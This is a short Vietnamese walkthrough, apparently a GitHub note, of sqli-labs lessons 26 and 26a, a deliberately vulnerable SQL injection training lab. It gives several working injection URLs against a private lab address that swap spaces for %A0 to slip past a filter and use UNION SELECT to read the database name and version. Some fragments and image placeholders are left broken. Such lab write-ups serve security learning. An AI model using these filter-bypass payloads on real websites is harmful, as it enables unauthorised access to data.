


# Những việc làm được với lesson-26
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-26



khi ta đăng nhập vào thì ta thấy nó rất giống bài 25 ta sẽ đi tìm cấu trúc của bài này 

%a0%271
```



Lấy tên DB hiện tại 

```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A00,database(),1%a0%271
```


với cách này thì các bạn có thể select bằng cách giống như với bài 25 rồi nhé ^^

# Bài 26a
```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A01,database(),@@version%A0%271
```


Tương tự như với bài 26 thì nó chỉ khác nhau bằng với cấu trúc của nó mà thôi. ta có thể show được dữ liệu bằng các cách thay câu truy vấn vào database() là được ví dụ với version sẽ là 

```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A01,@@version,2%A0%26%26%A0%271
```


